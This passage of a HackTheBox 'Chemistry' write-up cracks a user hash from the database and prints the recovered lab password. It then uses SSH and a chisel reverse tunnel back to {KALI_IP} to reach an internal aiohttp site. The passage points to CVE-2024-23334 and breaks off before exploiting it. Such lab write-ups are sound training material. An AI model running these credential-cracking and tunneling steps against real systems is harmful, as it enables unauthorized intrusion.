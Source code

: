 ### Shell as rosa

There is another user called `rosa`.

![users list](/images/HTB-Chemistry/user_list.png)

Inside `/home/app/instance` we find `database.db` which contains the hashes of users. The admin hash is not crackable but we successfully recover `rosa` password, `unicorniosrosados`.

![database credentials](/images/HTB-Chemistry/creds_in_db.png)

![rosa password found](/images/HTB-Chemistry/rosa_pwd.png)

With this password we login as `rosa` via SSH and recover the user flag.

![rosa SSH](/images/HTB-Chemistry/rosa_SSH.png)

![Chemistry user flag](/images/HTB-Chemistry/user_flag.png)

Using linpeas we find an internal port, we will use chisel for the tunneling.

![Chemistry internal ports](/images/HTB-Chemistry/active_ports.png)

On our local machine
```
chisel server -p 9999 --reverse
```

On the target
```
./chisel client {KALI_IP}:9999 R:8080:127.0.0.1:8080
```

We go to `http://127.0.0.1:8080/` and discover a website.

![internal website](/images/HTB-Chemistry/internal_website.png)

## Privilege Escalation (shell as root)

This website is static and does not offer any exploitable functionalities. Let's use `curl` to check the headers.

```
curl 127.0.0.1:8080 --head
```

![internal website header](/images/HTB-Chemistry/aiohttp.png)

We notice [aiohttp](https://docs.aiohttp.org/en/stable/) mentioned, this is a `Async HTTP client/server for asyncio and Python`. Searching `aiohttp cve` leads to [CVE-2024-23334](https://nvd.nist.gov/vuln/detail/cve-2024-23334) with a PoC [here](https://github.com/z3rObyte/CVE-2024-23334-PoC).

The `static`  directory is not present on our target.

![no static directory](/images/HTB-Chemistry/no_static_dir.png)
